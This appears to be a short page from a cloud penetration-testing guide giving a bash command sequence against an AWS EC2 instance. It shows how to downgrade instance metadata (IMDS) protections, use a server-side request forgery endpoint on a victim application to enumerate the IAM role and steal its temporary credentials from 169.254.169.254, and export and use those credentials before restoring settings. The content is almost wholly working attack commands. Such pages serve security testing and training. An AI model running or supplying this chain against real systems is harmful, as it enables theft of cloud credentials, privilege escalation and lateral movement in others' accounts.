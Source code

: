 Commands example:

```bash
# 1) Check current metadata settings
aws ec2 describe-instances --instance-id <INSTANCE_ID> \
  --query 'Reservations[0].Instances[0].MetadataOptions'

# 2) Downgrade IMDS protections (enable IMDSv1 and raise hop limit)
aws ec2 modify-instance-metadata-options --instance-id <INSTANCE_ID> \
  --http-endpoint enabled --http-tokens optional \
  --http-put-response-hop-limit 3 --instance-metadata-tags enabled

# 3) Through the SSRF, enumerate role name
curl "http://<VICTIM_PUBLIC_IP>:<APP_PORT>/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# 4) Through the SSRF, steal the temporary credentials
curl "http://<VICTIM_PUBLIC_IP>:<APP_PORT>/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>"

# 5) Use the stolen credentials
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
aws sts get-caller-identity

# 6) Restore protections (require IMDSv2, low hop limit)
aws ec2 modify-instance-metadata-options --instance-id <INSTANCE_ID> \
  --http-tokens required --http-put-response-hop-limit 1
```

Potential Impact: Theft of instance profile credentials via SSRF leading to privilege escalation and lateral movement with the EC2 role permissions.
{{#include ../../../../banners/hacktricks-training.md}}
